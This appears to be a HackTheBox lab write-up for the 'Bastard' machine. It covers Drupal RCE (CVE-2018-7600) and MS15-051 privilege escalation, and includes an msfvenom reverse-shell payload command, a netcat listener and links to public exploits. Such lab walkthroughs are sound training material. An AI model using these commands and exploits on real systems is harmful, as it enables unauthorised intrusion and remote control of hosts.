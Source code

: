 # Report - Bastard

Bastard HackTheBox Practice Report

Testing Summary

Bastard is a Medium rated machine at HackTheBox, the machine operating system is Windows Server 2008R2 Datacenter, with the initial foothold being a web application vulnerability abusing Drupal 7.54. The CVE-2018-7600 detail scores the Drupal 7 vulnerability as 9.8 (Critical). The Privilege escalation on the server could have multiple options, however the one that works is MS15-051 with a CVSS score of 7.8 (high) worked for me at the time of this report.

Tester Notes and Recommendations

Updating and possibly upgrading the Bastard system to the latest most stable version of Drupal, as well as update and upgrade the host system operating system would be the best path forward to resolve these issues. Administrators having a regularly scheduled outage and downtime can prevent this risk from happening and maintain good security policy.

Key Weaknesses found during the assessment:

1. Insufficient Patch Management - Software
2. Insufficient Patch Management - Operating Systems

Testing Findings

Internal Penetration Test Findings:

Finding 1: Insufficient Patch Management - Software 

| Description | This webpage is a webpage which is outward facing from the network, which allows for anyone to be able to access it and navigate to the login portal.  From this point on, the likely hood of a attacker being able to gain access to the host operating system and having access to the internal network is very high. This exploit allows for attackers to execute arbitrary code because of known issues in relation to subsystems and default or common module configurations.
-Drupal 7.54 |
| --- | --- |
| Risk | Likelyhood: High
Impact: Very High |
| System | Bastard |
| Tools Used | Exploit-db, Searchsploit, ffuf |
| References | [https://nvd.nist.gov/vuln/detail/cve-2018-7600](https://nvd.nist.gov/vuln/detail/cve-2018-7600)
[https://github.com/pimps/CVE-2018-7600/tree/master](https://github.com/pimps/CVE-2018-7600/tree/master) |

Evidence:

![image.png](image.png)

![image.png](image%201.png)

![image.png](image%202.png)

Remediation:

Finding 2:

| Description | The Windows server 2008R2 Operating System version has been End of Life since January 2020.
No new Updates or Extended Security updates are offered for this system for a few years, this makes the system vulnerable to new forms of vulnerabilities which are no longer covered by Microsoft. |
| --- | --- |
| Risk | Likelyhood: High
Impact: Very High |
| System | Bastard |
| Tools Used | windows-exploit-suggester, SecWiki/Kernel-Windows-Shell-Exploits |
| References | [https://nvd.nist.gov/vuln/detail/cve-2015-1701](https://nvd.nist.gov/vuln/detail/cve-2015-1701)
[https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) 
NIST SP800-53 r4 MA-6 – Maintenance 
NIST SP800-53 r4 SI-2 – Flaw Remediation |

Evidence:

![image.png](image%203.png)

![image.png](image%204.png)

Remediation:

Patch the environment to the latest stable version of Windows Server Database as soon as possible.

Walkthrough Path

Bastard is a windows machine with a Drupal 7 vulnerability with many opportunities for privesc once you have your first shell. Lets start off with a nmap scan.

![image.png](image%205.png)

The ports that are available to look around in are, Port 80, port 135 and port 49154. Port 80 is http, and has a few different documents available for viewing, lets check out port 80 first. If you just enter the IP address into the address bar this is what you see. If you have the wappalyzer plug-in, I suggest you use it, you can easily see what is running on that webpage, which is Drupal 7.

![image.png](image.png)

Lets see if we can get more information about the version of Drupal 7, and then look up some exploits. Some of the webpages listed from the nmap scan have some interesting information, specifically CHANGELOG.txt, if you look at that webpage you can gather the specific version of Drupal that the Bastard server is using.

![image.png](image%201.png)

I also found some hits from the webpage hinting at having a Microsoft server set up on the system. From the httpmethods.txt page.

![image.png](image%206.png)

Ok so now lets start looking for a Drupal 7.54 vulnerability which allows for us to skip over the login of the webpage, and get direct access. A Drupal 7.54 Remote Code Execution Vulnerability, CVE-2018-7600.   On the National Vulnerability Database the CVE-2018-7600 is a RCE vulnerability with a base score of 9.8 Critical. [https://nvd.nist.gov/vuln/detail/cve-2018-7600](https://nvd.nist.gov/vuln/detail/cve-2018-7600).

A Github page with a reliable exploit, I did not have good luck with the exploit-db version of this exploit, [https://www.exploit-db.com/exploits/44449](https://www.exploit-db.com/exploits/44449), if you want to give it a shot you should be able to download this from a updated database of msfconsole.

Searchsploit -m 44449

Now with my initial failure to attack this system is out of the way, here is the attack method that works, using this exploit from pimps ([https://github.com/pimps/CVE-2018-7600/tree/master](https://github.com/pimps/CVE-2018-7600/tree/master)) , you can use it as a RCE and collect information about the system as well as get a remote shell on the system.

![image.png](image%207.png)

You can also get a copy of the user.txt flag on the system this way as well…

![image.png](image%208.png)

Now getting onto the system and gaining Privilege Escalation. Time to create a reverse shell to our local system, we can do this using msfvenom replace ‘tun0’ with your local Kali IP.

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=443 -f exe > shell.exe
```

Now you have shell.exe to copy over to the system, Now create a directory so you have Read, Write and Modify permissions on and copy over your reverse shell onto it. It would look something like this…

![image.png](image%202.png)

Now you can create a netcat listener to listen for the shell.exe call back to your system.

```bash
nc -lnvp 443
```

Now execute the shell.exe on the remote system, you should have local user connection.

![image.png](image%209.png)

Now following all the same options as before lets collect the systeminfo from Bastard and run it against windows-exploit-suggester.

![image.png](image%2010.png)

Look at all of those vulnerabilities, lets try MS15-051x64 [https://nvd.nist.gov/vuln/detail/cve-2015-1701](https://nvd.nist.gov/vuln/detail/cve-2015-1701)

Going to [https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) will allow you to download the zip file and copy over the 64 bit version since according to windows-exploit-suggester it is a x64 bit system.

![image.png](image%2011.png)

Sherlock didn’t want to work for me, so my second opinion I guess doesn’t matter. Lets use what we know is good from the windows-exploit-suggester, copy over the MS15-051 exploit, copy the 64 bit version and nc.exe from kali over to the Bastard box and see if we can get a Kernel reverse shell on the system.

![image.png](image%2012.png)

Copied all of those over to Bastard’s C:\temp

![image.png](image%203.png)

And now running netcat to have a cmd.exe prompt on my local kali listener using port 4444.

![image.png](image%204.png)

Hey look NT Authority\System, neat!

Proof that I did the thing:

https://www.hackthebox.com/achievement/machine/1184690/7